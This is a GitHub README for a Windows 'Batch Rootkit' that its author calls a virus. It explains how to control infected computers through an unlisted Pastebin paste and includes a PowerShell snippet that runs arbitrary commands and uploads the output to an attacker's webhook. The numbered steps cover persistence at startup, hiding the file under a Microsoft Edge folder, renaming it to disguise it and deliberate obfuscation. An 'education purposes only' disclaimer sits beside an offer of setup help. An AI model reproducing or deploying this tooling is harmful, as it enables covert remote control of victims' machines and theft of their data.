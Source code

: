 # Batch Rootkit

> __Warning__ 
> **I hereby declare that I am not liable for any damages caused by the program. If you experience any problems with my code, feel free to reach out to me on Discord.**


> __Warning__ 
> **ITS EDUCATION PURPOSES ONLY**


## Contact
In case you require any assistance with my project, please do not hesitate to contact me on Discord.
**Code613 on discord**

## About project
Batch rootkit is using pastebin paste to control computer. You can use all powershell and cmd commends.

##How to use
1. Create account on Create paste on https://pastebin.com/
2. Create paste on https://pastebin.com/
3. Make paste to unlisted
4. Change your webhook url and commend that you want to use
```PowerShell
$webhookUrl = "Your webhook url"
$outputFile = "output.txt"
$command = "Commend you want to use"
Invoke-Expression "$command | Out-File -FilePath $outputFile"
#tasklist | Out-File -FilePath $outputFile
$client = New-Object System.Net.WebClient
$client.UploadFile($webhookUrl, $outputFile)
Remove-Item $outputFile
 ```
5. To use cmd commend use ```cmd /c```  to use powershell commend just use your commend without ```cmd /c```
6. Save your paste
7. Press raw button
8. Copy link
9. Paste this link into batch code
10. Change name of rootkit.bat to anything you want
11. Done
12. Now application will run on startup and will be stored in %localappdata%/Microsoft Edge
13. I made this code difficult to read so if you need help i can show you how to setup this **VIRUS** for **EDUCATION PURPOSES ONLY** so feel free to contact me on my discord.

